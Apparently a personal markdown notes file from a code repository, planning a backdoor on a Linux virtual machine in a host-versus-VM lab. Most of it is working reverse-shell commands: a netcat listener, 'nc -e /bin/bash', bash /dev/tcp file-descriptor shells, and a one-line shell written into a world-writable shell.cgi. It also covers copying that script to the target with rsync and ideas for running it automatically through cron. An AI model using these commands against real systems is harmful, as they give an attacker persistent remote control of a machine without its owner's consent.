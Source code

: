 # Notes for the backdoor
Will most likely need to make use of crontab so the file automatically gets executed at a time or at startup. 

HM = Host machine
VM = Virtual machine that is being attacked

# 1 Netcat method
This creates a reverse shell with netcat

HM
1. HM setup listening port: `nc –l 4444`
2. Get the hosts ip address: `ifconfig | grep --color netmask`
	it will be something like `192.168.x.xxx`

3. gain remote access to the VM, via ssh or ...?
4. On Linux VM, setup the reverse shell with hosts IP address: `nc 192.168.x.xxx -e /bin/bash`

5. on HM type any bash command and hit enter

# 2 without Netcat installed
- // 0<&196; open file descriptor and redirect it to stdin. 196 is a random number
- // exec 196<>/dev/tcp/192.168.0.xxx/4444; read-write file descriptor,  https://unix.stackexchange.com/questions/164391/how-does-cat-file-work
- // sh <&196 receive commands from host machine, display output on target
- // sh >&196 receive commands on target, redirect output to the host machine
- // sh 2>&196 redirect stderr to the host
- // sh <&196 1>&196 2>&196 allow commands output to display on the target machine
1. on HM: `nc –l 4444`
2. on VM: `0<&196;exec 196<>/dev/tcp/192.168.0.xxx/4444; sh <&196 1>&196 2>&196`

# 3 even better method
https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3
- // >& `location` redirects stdout and stderr to be redirected to `location`
- // 0<&1 redirects std in back to the shell
1. on HM: `nc –l 4444`
2. on VM: `/bin/bash -i >& /dev/tcp/192.168.0.xxx/4444 0<&1`
3. copy it to the remote machine: `rsync -av shell.cgi sparky@kali:/home/sparky/desktop`	// change to use your machines details instead of sparky@kali						

## To elaborate a little bit --> create the script, set permissions
1. on HM: `echo "/bin/bash -i >& /dev/tcp/192.168.0.xxx/4444 0<&1" > shell.cgi; chmod 777 shell.cgi`

## copy the script to the remote machine
2. rsync -av shell.cgi sparky@kali:/home/sparky/desktop

## now the remote machine just needs to run shell.cgi
Sounds like Crontab could do this, or https://serverfault.com/questions/364040/how-to-execute-a-process-on-remote-linux-machine-without-ssh
3. ./shell.cgi

# TODO
- [ ] figure out how to make the script execute on the remote machine.
rsync --chmod=u+rwx,g+rwx,o+rwx /path/to/file server:/path/to/file
